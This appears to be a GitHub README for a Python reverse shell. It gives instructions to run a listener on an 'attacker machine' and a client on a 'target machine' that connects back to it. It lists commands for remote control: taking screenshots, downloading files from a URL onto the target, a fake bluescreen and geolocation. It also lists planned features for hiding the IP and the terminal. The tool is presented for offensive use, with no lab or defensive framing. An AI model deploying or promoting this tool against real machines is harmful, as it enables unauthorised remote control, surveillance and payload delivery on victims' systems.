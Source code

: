 # Reverse Shell

Reverse shell implementation using Python.

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif" with="600" height="339">
</p>

## Installation

**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage

### 1. Listen for target

On attacker machine, run the `attacker.py` script.

```
python3 attacker.py [port]
```

### 2. Execute reverse shell

On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```

## Commands

```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```

## Features

### Implemented

* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented

* Packet encoder/decoder.

## TODOs
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
